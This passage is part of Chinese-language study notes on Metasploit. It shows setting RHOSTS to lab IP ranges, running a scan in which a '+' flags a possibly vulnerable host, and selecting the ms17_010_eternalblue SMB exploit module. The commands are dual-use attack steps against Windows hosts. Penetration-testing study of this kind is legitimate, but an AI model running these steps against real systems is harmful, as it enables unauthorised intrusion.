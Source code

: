 	1. `set RHOSTS 192.168.0.103 192.168.0.102`
	2. `set RHOSTS 192.168.0.101-192.168.0.104`
	3. `set RHOSTS 192.168.0.1/24`
4. 输入`exploit / run`攻击，这里有+号就可能存在漏洞  ![](media/Pasted%20image%2020250701053405.png)  

#### Exploit模块
1. 选择漏洞攻击模块：`use exploit/windows/smb/ms17_010_eternalblue`
2. 查看漏洞信息：`info`  ![](media/Pasted%20image%2020250701022051.png)  
